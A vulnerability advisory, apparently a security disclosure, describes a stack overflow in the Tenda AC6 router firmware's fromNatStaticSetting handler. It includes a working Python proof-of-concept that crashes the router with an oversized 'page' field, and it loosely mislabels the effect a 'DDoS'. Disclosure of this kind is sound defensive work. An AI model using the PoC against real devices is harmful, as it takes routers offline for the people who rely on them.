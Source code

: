 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Wang Jinshuai(jinshuaiwang61@gmail.com) ，Zhao Jiangting(sta8r9@163.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `fromNatStaticSetting` function in the AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long `page` variable value, causing a stack overflow, which then leads to a DDoS attack.

# Vulnerability details

Analyzing the `fromNatStaticSetting` function in this file reveals that when the value of the `page` variable is a very long string, such as 400 characters of "a", a stack overflow attack occurs because the `gotopage` variable, due to insufficient buffer length, overflows when the value is assigned via the `sprintf` function.

![image-20250313203003251](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132030061.png)

Cross-referencing the `fromNatStaticSetting` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313204323306](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132043458.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/NatStaticSetting"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "page": "a"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)

```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)